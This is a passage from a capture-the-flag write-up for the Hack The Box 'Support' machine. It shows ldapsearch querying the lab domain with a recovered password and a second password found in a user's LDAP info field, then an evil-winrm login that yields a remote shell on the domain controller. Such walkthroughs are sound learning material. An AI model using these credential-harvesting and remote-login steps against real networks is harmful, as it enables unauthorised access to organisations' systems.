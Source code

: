 
Hmm... The user `support` stood out, as it doesn't follow the `<firstname>.<lastname>` pattern.

**Let's extract it's info!**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/Support]
└─# ldapsearch -x -H ldap://$RHOSTS -b 'dc=support,dc=htb' -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=support,CN=Users,DC=support,DC=htb'
[...]
# support, Users, support.htb
[...]
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
[...]
```

The `info` field looks like is a password!

**Also, this `support` user is inside the group `Remote Management Users`, which means it can login via WinRM protocol!**

**Let's use `evil-winrm` to remotely login!**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/Support]
└─# evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i $RHOSTS
[...]
*Evil-WinRM* PS C:\Users\support\Documents> whoami;hostname;ipconfig /all
support\support
dc

Windows IP Configuration

   Host Name . . . . . . . . . . . . : dc
   Primary Dns Suffix  . . . . . . . : support.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : support.htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-B2-AE
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.11.174(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 127.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

I'm user `support`!
